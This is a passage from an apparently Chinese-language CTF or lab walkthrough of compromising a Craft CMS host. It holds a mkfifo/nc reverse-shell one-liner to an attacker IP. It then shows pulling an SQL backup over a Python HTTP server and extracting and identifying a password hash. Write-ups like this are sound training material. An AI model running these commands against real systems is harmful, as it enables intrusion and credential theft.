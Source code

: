 反弹个nc维持稳定远程权限

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 5566  >/tmp/f
```

![image-20231218193009237](../图片/image-20231218193009237.png)



在/var/www/html/craft/storage/backups中发现一个sql的压缩包，使用python开启http服务，访问并下载文件

```
python3 -m http.server 1144
```

![image-20231221100522616](../图片/image-20231221100522616.png)

在sql备份文件中发现一个hash值

```
echo “39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec” > hash
```

![image-20231221101308843](../图片/image-20231221101308843.png)

使用hash-identifier识别hash属性，识别出来为SHA-256,Haval-256

```
hash-identifier
```
